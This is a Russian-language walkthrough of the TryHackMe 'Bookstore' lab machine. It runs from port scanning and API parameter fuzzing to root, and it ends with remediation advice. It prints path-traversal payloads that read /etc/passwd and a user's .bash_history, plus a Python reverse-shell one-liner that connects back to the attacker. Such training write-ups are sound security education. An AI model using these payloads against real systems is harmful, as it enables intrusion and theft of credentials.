# TryHackMe - Bookstore

## 1. Reconnaissance (Разведка)

Первым шагом было сканирование портов с помощью **RustScan** для определения периметра атаки.

```bash
rustscan -a 10.66.190.179 -- -sV
```
**Результат:** Обнаружены открытые порты 22 (SSH), 80 (HTTP) и 5000 (HTTP).



На порту 80 запущен веб-сервер Apache 2.4.29.


Из себя он не представляет ничего интересного.

Также на порту 5000 запущен веб-сервер Werkzeug 0.14.1.



Был запущен перебор файлов и директорий через **FFUF**:

```bash
ffuf -w wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://10.66.190.179:5000/FUZZ -e .php,.html,.txt
```



**Результат:** Обнаружены директории /api и /console.

Перейдя на /console - видим Werkzeug Debug Console требующий ввести PIN



## 2. Initial Access (Первоначальный доступ)

Перейдя по адресу /api/, была обнаружена API документация, указывающая на некоторые возможности с данным API.



Также было замечено, что тут работает не только V2, но и V1 версия.



Был запущен перебор параметров через **FFUF**:

```bash
ffuf -w wordlist/SecLists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://10.66.190.179:5000/api/v1/resources/books?FUZZ=123'
```



**Результат:** Обнаружен незадокументированный параметр `show`.

Использовав этот параметр видим ошибку `NameError: name 'filename' is not defined`, подсказывающая, что значение параметра это название файлов в системе



Данный параметр уязвим к LFI: 

```bash
/api/v1/resources/books?show=../../../../../../etc/passwd
```



Отсюда сразу видим пользователя `sid`.

## 3. Foothold (Закрепление)

Прочитав через найденную уязвимость файл .bash_history данного пользователя, можно увидеть PIN необходимый для Werkzeug.

```bash
/api/v1/resources/books?show=../../../../../../home/sid/.bash_history
```



Введя данный PIN - удалось попасть в саму консоль.



Данная консоль исполняет произвольный Python код. Это было использовано для отправки Reverse Shell.

```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[local ip]",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```




Следом был прочитан User флаг.



## 4. Privilege Escalation (Повышение привилегий)

В корневой директории текущего пользователя находится исполняемый файл try-harder, выполнив его он запрашивает секретное число `What's The Magic Number?!`.



Перенеся данный файл к себе и проанализировав его через **Ghidra** удалось обнаружить код отвечающий за данное число.







Чтобы вычислить секретное число, был использован LLM (ChatGPT) как ассистента для написания обратного скрипта. Данный скрипт был исполнен локально.





Вернувшись в Reverse Shell и запустив снова скрипт - полученное число подошло и получили пользователя `root`.



Далее был прочитан финальный флаг:



## Remediation (Рекомендации по устранению)

Для предотвращения подобных атак необходимо:

1. **Безопасность API:** Никогда не передавать пользовательский ввод напрямую в функции работы с файлами (защита от Path Traversal/LFI). Использовать строгую валидацию параметров (например, разрешать только числовые ID).
2. **Конфигурация сервера:** Отключить режим отладки (Debug Mode). Никогда не оставлять открытыми консоли разработчика (Werkzeug Debugger), так как это приводит к прямому RCE.
3. **Управление секретами:** Не хранить пароли, PIN-коды и другие чувствительные данные в файлах истории bash (.bash_history) или конфигурационных файлах в открытом виде.
4. **Права доступа:** Удалить SUID-бит с нестандартных исполняемых файлов. Принцип наименьших привилегий (Least Privilege) должен соблюдаться строго.